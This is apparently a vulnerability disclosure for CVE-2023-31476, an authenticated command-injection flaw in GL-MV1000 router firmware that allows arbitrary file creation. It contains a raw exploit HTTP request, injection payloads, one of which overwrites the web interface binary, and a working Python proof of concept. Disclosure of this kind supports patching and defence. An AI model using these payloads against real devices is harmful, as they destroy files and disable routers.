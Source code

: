 ```yaml
---
title: 'CVE-2023-31476: GL-MV1000 Arbitrary File Creation'
date: 2023-05-18 00:00:04
tags: 
- security-research
- web
- iot
---
```


# [CVE-2023-31476](https://nvd.nist.gov/vuln/detail/CVE-2023-31476): GL-MV1000 Arbitrary File Creation
* **CVSS Score** - 5.0, Medium ([CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:U/C:N/I:L/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:U/C:N/I:L/A:H))
* **Overview** - All GL-MV1000 devices running firmware <= 3.215 are vulnerable to an authenticated arbitrary file write, where an empty file can be created almost anywhere on the filesystem, as long as the filename and path is <= 6 characters long (the working directory is `/www`). This is due to a blind command injection vulnerability with a short character limit and filter applied. Example request below (note, you will be disconnected temporarily due to invalid MAC address):

```
POST /api/router/mac/clone HTTP/1.1
Host: 192.168.8.1
Authorization: 80dafe40822e4a59b6daabd659617963
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 24

newmac=2:a:a:a:a:>/tmp/a
```

* **Description**
    * The API endpoint `/api/router/mac/clone` takes a new MAC address in the `newmac` variable, does some (insufficient) checks on it to see if it's valid, and then pipes it into a system command. The corresponding API function will check to ensure that the string is in the form `?:?:?:?:?:?` (5 semicolons), where the first `?` is an even number, and the exact length is 17 characters. While the intended format is `00:00:00:00:00:00`, the string `2:a:a:a:a:>/tmp/a` is also valid.
    * The system command being run is `iw dev %s station dump | grep %s`, with the `newmac` value in the second `%s`. Plugging in our malicious value gives us the command `iw dev ? station dump | grep 2:a:a:a:a:>/tmp/a`, which will pipe no results into the file `/tmp/a` (which it creates).
    * Since firmware 3.215, all string parameters are checked to determine if shell injection characters (like `;` or `|` are being used), and any API requests with those special characters are immediately blocked. These characters include `;`, `|`, `&`, `(`, `)`, `$`, and the backtick char. However, the `>` and `<` signs are not, hence allowing us this behavior. If this filter was not in place, then this vulnerability would be command injection, as the payload `2:a:a:a:a:;pwd` would be valid, and the `pwd` command could be executed.
    * Note that this can also be used to overwrite existing files. For example, the payload `2:a:a:a:a:>api` would overwrite the `/www/api` binary, making the web GUI completely unusable.
* **Steps to reproduce** - run the Proof of Concept below using `python3 exploit.py <domain/IP> <authtoken>`, such as `python3 exploit.py 192.168.8.1 80dafe40822e4a59b6daabd659617963`

## Fix
This was fixed in 3.216 by filtering out all `>` characters.

# PoC
```python
import requests, sys
import urllib.parse
import warnings
warnings.filterwarnings("ignore")


## Get arguments
if (len(sys.argv) < 3):
    print("Usage: python3 exploit.py <domain/IP> <authtoken>")
    sys.exit(1)

url = sys.argv[1]
token = sys.argv[2]


## Send request
data = "newmac=2:a:a:a:a:>/tmp/a"
headers = {'Authorization': token, 'Content-Type': 'application/x-www-form-urlencoded'}
response = requests.request("POST", "https://"+url+"/api/router/mac/clone", verify=False, timeout=4, data=data, headers=headers)


## Check response
try:
    code = response.json()['code']
    if code == -1:
        print("[-] Auth token invalid")
    elif code == 0:
        print("[+] Command executed")
    else:
        sys.exit(1)
except:
    print("[-] Machine not vulnerable, error was encountered")
```